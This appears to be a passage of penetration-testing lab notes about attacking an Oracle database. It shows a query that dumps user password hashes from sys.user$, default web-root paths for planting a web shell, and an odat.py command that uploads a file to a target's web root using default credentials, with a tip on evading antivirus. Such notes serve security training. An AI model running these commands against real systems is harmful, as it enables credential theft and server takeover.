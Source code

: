 ***

## <mark style="color:red;">**Oracle RDBMS - Extract Password Hashes**</mark>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>SQL> select name, password from sys.user$;
</strong>
NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
</code></pre>

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

| **OS**  | **Path**             |
| ------- | -------------------- |
| Linux   | `/var/www/html`      |
| Windows | `C:\inetpub\wwwroot` |

First, trying our exploitation approach with files that do not look dangerous for Antivirus or Intrusion detection/prevention systems is always important. Therefore, we create a text file with a string and use it to upload to the target system.

***

## <mark style="color:red;">**Oracle RDBMS - File Upload**</mark>

{% code title="" overflow="wrap" %}
```bash
mrroboteLiot@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
mrroboteLiot@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```
{% endcode %}
